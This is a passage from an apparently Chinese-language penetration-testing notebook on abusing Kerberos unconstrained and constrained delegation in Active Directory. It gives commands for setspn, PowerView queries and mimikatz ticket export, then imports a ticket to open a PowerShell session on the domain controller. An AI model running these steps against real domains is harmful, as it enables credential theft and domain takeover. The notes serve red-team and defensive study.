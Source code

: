  ### 账户非受限委派
	设置用户y为服务账户(服务账户有委派权限)
	>setspn -U -A variant/golden y
![image](/assets/Pentest_Note/master/img/398.png)

	查询非受限委派域内账号，使用powerview
	>Get-NetUser -Unconstrained -Domain zone.com
![image](/assets/Pentest_Note/master/img/399.png)

	利用
	管理员权限打开mimikatz导出TGT
	>privilege::debug
	>sekurlsa::tickets /export
![image](/assets/Pentest_Note/master/img/400.png)

	清空票据，导入票据
![image](/assets/Pentest_Note/master/img/401.png)
![image](/assets/Pentest_Note/master/img/402.png)

	获得Powershell会话
	> Enter-PSSession -ComputerName dc.zone.com
![image](/assets/Pentest_Note/master/img/403.png)
 ### 账户受限委派
	查询受限委派用户
	> Get-DomainUser -TrustedToAuth –Domain zone.com
![image](/assets/Pentest_Note/master/img/404.png)

	查询受限委派主机
	> Get-DomainComputer -TrustedToAuth -Domain zone.com
![image](/assets/Pentest_Note/master/img/405.png)
	
	利用方法后见权限维持模块
